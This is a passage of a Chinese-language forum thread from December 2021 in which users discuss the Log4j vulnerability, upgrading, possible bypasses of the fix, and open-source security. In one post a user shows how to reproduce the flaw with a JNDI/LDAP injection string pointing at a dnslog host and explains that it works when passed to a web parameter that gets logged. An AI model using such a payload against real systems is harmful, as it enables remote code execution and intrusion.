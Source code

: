 我以为这种经广泛使用的基础框架不会出这种问题<img src="https://static.saraba1st.com/image/smiley/face2017/003.png" referrerpolicy="no-referrer">

—— 来自 [S1Fun](https://s1fun.koalcat.com)

*****

####  battleship64  
##### 14#       发表于 2021-12-10 12:41

升个版本咯

*****

####  guevara1989  
##### 15#       发表于 2021-12-10 12:41

<blockquote><a href="httphttps://bbs.saraba1st.com/2b/forum.php?mod=redirect&amp;goto=findpost&amp;pid=53879925&amp;ptid=2041735" target="_blank">bolitao 发表于 2021-12-10 12:40</a>
我以为这种经广泛使用的基础框架不会出这种问题

—— 来自 S1Fun</blockquote>
前两年struts还出过漏洞呢

— from OnePlus GM1910, Android 11 of [S1 Next Goose](https://pan.baidu.com/s/1mi43uRm) v2.5.2

*****

####  Evilgurren  
##### 16#       发表于 2021-12-10 12:42

升也没用，rc2可能也会绕过

*****

####  cstljn  
##### 17#       发表于 2021-12-10 12:42

<blockquote><a href="httphttps://bbs.saraba1st.com/2b/forum.php?mod=redirect&amp;goto=findpost&amp;pid=53879693&amp;ptid=2041735" target="_blank">风夏 发表于 2021-12-10 12:28</a>

能不能演示下漏洞怎么复现

—— 来自 HUAWEI VOG-AL00, Android 10上的 S1Next-鹅版 v2.5.2 ...</blockquote>
${jndi:ldap://xxxxx.dnslog.cn/exp}  找个web接口传参，然后log.info打印

*****

####  董卓  
##### 18#         楼主| 发表于 2021-12-10 12:44

<blockquote><a href="httphttps://bbs.saraba1st.com/2b/forum.php?mod=redirect&amp;goto=findpost&amp;pid=53879925&amp;ptid=2041735" target="_blank">bolitao 发表于 2021-12-10 12:40</a>
我以为这种经广泛使用的基础框架不会出这种问题

—— 来自 S1Fun</blockquote>
开源软件每个人都可以审查
所以安全性更高<img src="https://static.saraba1st.com/image/smiley/face2017/009.gif" referrerpolicy="no-referrer">
